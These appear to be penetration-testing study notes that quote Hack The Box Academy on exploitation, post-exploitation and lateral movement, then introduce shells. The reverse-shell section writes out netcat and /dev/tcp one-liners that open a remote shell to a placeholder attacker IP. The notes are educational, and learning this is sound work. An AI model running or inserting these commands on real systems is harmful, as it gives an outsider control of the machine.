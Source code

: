 |Path | Description |
|-----|-------------|
|Exploitation |The first we can jump into is the Exploitation stage. This happens when we do not yet have access to a system or application. Of course, this assumes that we have already identified at least one gap and prepared everything necessary to attempt to exploit it.|
|Post-Exploitation| The second way leads to the Post-Exploitation stage, where we escalate privileges on the target system. This assumes that we are already on the target system and can interact with it.|
|Lateral Movement|Our third option is the Lateral Movement stage, where we move from the already exploited system through the network and attack other systems. Again, this assumes that we are already on a target system and can interact with it. However, privilege escalation is not strictly necessary because interacting with the system already allows us to move further in the network under certain circumstances. Other times we will need to escalate privileges before moving laterally. Every assessment is different.|
|Information Gathering| The last option is returning to the Information Gathering stage when we do not have enough information on hand. Here we can dig deeper to find more information that will give us a more accurate view.|

> *Source: Hackthebox Academy*

## Resources

- https://academy.hackthebox.com/login

### General resources about enumeration

- https://medium.com/@nclvnp/enumeration-1976c5d55b1b




# Exploitation (Basics)

Exploitation is the attack performed against a system or application based on the potential vulnerability discovered during our information gathering and enumeration.  
We use the information from the Information Gathering stage, analyze it in the Vulnerability Assessment stage, and prepare the potential attacks.  
Often many companies and systems use the same applications but make different decisions about their configuration.  
This is because the same application can often be used for various purposes, and each organization will have different objectives.  

> *Source: Hackthebox Academy*

## Shells

### Reverse shell

![image](https://user-images.githubusercontent.com/96747355/175835538-b00ec472-e4b3-4688-b062-25d37837b8b1.png)  

> *Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)*

- The target connects back to us. Initiates a connection back to a "listener" on our attack box.
- Example
  - in our attacking machine we type `nc -nlvp 4444` (4444 is the port) 
  - in our target we connect be. For instance in case of a linux based machine we can do `netcat ATTACKING-MACHINE-IP 4444 -e /bin/bash` we could also use `/bin/bash -i >& /dev/tcp/ATTACKING-MACHINE-IP/4444 0>&1`

### Bind shell
